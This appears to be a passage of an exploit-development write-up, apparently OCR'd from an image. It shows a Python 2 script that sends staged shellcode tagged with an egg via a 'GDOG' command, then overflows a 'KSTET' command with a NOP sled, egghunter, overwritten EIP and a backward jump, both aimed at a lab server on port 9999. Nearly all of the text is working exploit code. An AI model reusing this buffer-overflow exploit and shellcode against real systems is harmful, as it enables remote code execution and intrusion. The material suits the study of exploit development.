 ```python
shellcode += '\x42\xe7\x89\x1c\xf3\xe8\x04\x59\x33\x62\xac\x9d\xfa'
shellcode += '\x83\xc5\x8d\xeb\xf3\x25\x4e\xec\x91\x25\x24\xe8\x33'
shellcode += '\x72\xd0\xf2\x62\xb4\x7f\x0c\x41\xc7\x78\xf2\x14\xf1'
shellcode += '\xf3\xc5\x82\xbd\x6b\x2a\x43\x3d\x6c\x7c\x09\x3d\x04'
shellcode += '\xd8\x69\x6e\x31\x27\xa4\x03\xea\xb2\x47\x75\x5e\x14'
shellcode += '\x20\x7b\xb9\x52\xef\x84\xec\xe0\xe8\x7a\x72\xcf\x50'
shellcode += '\x12\x8c\x4f\x61\xe2\xe6\x4f\x31\x8a\xfd\x60\xbe\x7a'
shellcode += '\xfd\xaa\x97\x12\x74\x3b\x55\x83\x89\x16\x3b\x1d\x89'
shellcode += '\x95\xe0\xae\xf0\xd6\x17\x4f\x05\xff\x73\x50\x05\xff'
shellcode += '\x85\x6d\xd3\xc6\xf3\xb0\xe7\x7c\x0b\x87\x4a\xd4\x86'
shellcode += '\xe7\xd9\x26\x83'

payload = egg + shellcode
command = 'GDOG '

data = command + payload
print '[*] Sending data: ' + command + egg + shellcode.encode('hex')
s = socket.create_connection(('192.168.185.146',9999))
s.sendall(data)
s.close()


nopsled = '\x90' * 4
egghunter = '\x31\xdb\x53\x53\x53\x53\xb3\xc0\x66\x81\xca\xff\x0f\x42\x52\x6a'
egghunter += '\x26\x58\x33\xc9\x8b\xd4\x64\xff\x13\x5e\x5a\x3c\x05\x74\xe9\xb8'
egghunter += '\x77\x30\x30\x74\x8b\xfa\xaf\x75\xe4\xaf\x75\xe1\xff\xe7'
pre_buf = 'A' * (70 - len(egghunter) - len(nopsled))
eip = '\xBB\x11\x50\x62'
jmp = '\x90\xEB\xB5' 
post_buf =  'C' * (26 - len(jmp))
buffer = nopsled + egghunter + pre_buf + eip + jmp + post_buf
command = 'KSTET '
data = command + buffer

print '[*] Sending data: ' + command + buffer.encode('hex')
s = socket.create_connection(('192.168.185.146',9999))
s.sendall(data)
s.close()
```

Sending the final exploit.
